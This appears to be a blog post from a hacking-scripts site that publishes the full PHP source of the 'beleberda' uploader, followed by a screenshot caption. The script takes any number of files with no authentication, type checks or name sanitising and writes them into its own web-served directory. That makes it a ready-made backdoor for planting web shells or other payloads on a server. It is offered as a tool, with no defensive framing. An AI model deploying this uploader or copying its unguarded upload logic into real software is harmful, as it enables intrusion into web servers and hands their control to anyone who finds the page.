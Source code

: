 ```yaml
---
id: 308
title: beleberda uploader script
author: admin
layout: post
guid: http://hackingscripts.com/?p=308
permalink: /beleberda-uploader-script/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

Beleberda uploader script


### Beleberda Uploader Script source code

{% highlight php linenos %}<html>

<head>
  <title>bele</title>
</head>

<body>
<?php


 if(empty($_GET['Nfiles']))$Nfiles=15;else $Nfiles=$_GET['Nfiles'];
if($_FILES['userfile']['tmp_name'][0]!=''){
	for($i=0;$i<$Nfiles&&$_FILES['userfile']['tmp_name'][$i]!='';$i++){
	$uploaddir = dirname(__FILE__);//'/var/www/uploads/';
	$uploadfile = $uploaddir .'/'. basename($_FILES['userfile']['name'][$i]);
	print "<pre>";
	if (move_uploaded_file($_FILES['userfile']['tmp_name'][$i], $uploadfile)) {
	   print "File is valid, and was successfully uploaded. ";
	   //print_r($_FILES);
	} else {
	   print "Possible fie upload attack!  Here's some debugging info:\n";
	   //print_r($_FILES);
	}
	print "</pre>";
	}
}
?>
<form action="<?php echo $_SERVER['PHP_SELF'].'?Nfiles='.$Nfiles; ?>" method="post" enctype="multipart/form-data">
  Send beleberda:<br>
  <?php for($i=0;$i<$Nfiles;$i++){echo '<input name="userfile[]" type="file"><br>';}?>
  <input type="submit" value="Send files">
</form>

</body>

</html>
{% endhighlight %}

A screenshot of the Beleberda script:<figure id="attachment_392" style="width: 268px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png" alt="beleberda script screenshot" width="268" height="468" class="size-full wp-image-392" />][1]<figcaption class="wp-caption-text">Beleberda script screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png